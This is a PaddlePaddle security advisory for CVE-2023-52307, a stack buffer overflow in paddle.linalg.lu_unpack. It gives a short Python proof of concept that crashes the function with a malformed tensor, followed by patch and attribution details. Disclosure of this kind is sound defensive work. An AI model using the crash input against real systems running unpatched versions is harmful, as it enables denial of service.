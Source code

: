 ## PDSA-2023-016: Stack overflow in paddle.linalg.lu_unpack

### CVE Number

CVE-2023-52307

### Impact

Invalid shapes cause stack buffer overflow in `paddle.linalg.lu_unpack`.  The PoC is as follows:

```python
import paddle
import numpy as np

x = paddle.to_tensor(np.random.uniform(-6666666, 100000000, [1, 6, 4, 8, 2]).astype(np.float32))
y = paddle.to_tensor(np.random.uniform(-2147483648, 2147483647, []).astype(np.int32))

paddle.linalg.lu_unpack(x, y, True, True)
```

### Patches

We have patched the issue in commit [10093636a10f29f73f13729b33570d8cafd58fb6](https://github.com/PaddlePaddle/Paddle/pull/56311/commits/10093636a10f29f73f13729b33570d8cafd58fb6).
The fix will be included in PaddlePaddle 2.6.0.

### For more information

Please consult [our security guide](../../SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution

This vulnerability has been reported by Tong Liu of CAS-IIE.
